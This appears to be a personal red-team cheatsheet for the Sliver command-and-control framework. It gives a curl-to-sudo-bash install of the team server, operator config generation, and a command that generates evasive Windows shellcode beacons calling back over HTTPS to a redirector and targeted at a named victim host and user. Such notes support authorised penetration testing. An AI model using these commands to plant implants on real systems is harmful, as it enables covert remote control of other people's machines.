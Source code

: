 # Sliver

- [https://github.com/BishopFox/sliver](https://github.com/BishopFox/sliver)




## Install

- [https://github.com/BishopFox/sliver/releases/latest](https://github.com/BishopFox/sliver/releases/latest)

Install team server as a daemon on the team server:

```
$ curl https://sliver.sh/install | sudo bash
```

For a client get a `sliver-client` binary from releases or disable the service if installed as a daemon:

```
$ sudo systemctl disable sliver.service --now
```




## Configure Team Server for Multiplayer

- [https://github.com/BishopFox/sliver/wiki/Configuration-Files](https://github.com/BishopFox/sliver/wiki/Configuration-Files)

Change [multiplayer](https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode) listener host (daemon mode) and restart:

```
$ sudo vi /root/.sliver/configs/server.json
$ sudo systemctl restart sliver.service
```

Generate config for a new operator:

```
$ sudo /root/sliver-server operator --name snovvcrash-kali-home --lhost <PRIVATE_IP> --lport 31337 --save snovvcrash_<PRIVATE_IP>.cfg
```




## Cheatsheet

A redirector-aware pair of payload and listener (when redirecting to `PRIVATE_IP:8443`):

```
sliver > generate [beacon] [--sleep 7] [--jitter 5] --os windows --arch amd64 --format shellcode [--evasion] --http example.com:443 [--limit-datetime "Thu, 01 Jan 1970 00:00:00 MSK"] [--limit-domainjoined] [--limit-hostname VICTIM-PC] [--limit-username victim.user] --name victimpc --save /home/snovvcrash/www/shellcode.bin

sliver > https --domain example.com --lhost <PRIVATE_IP> --lport 8443
```
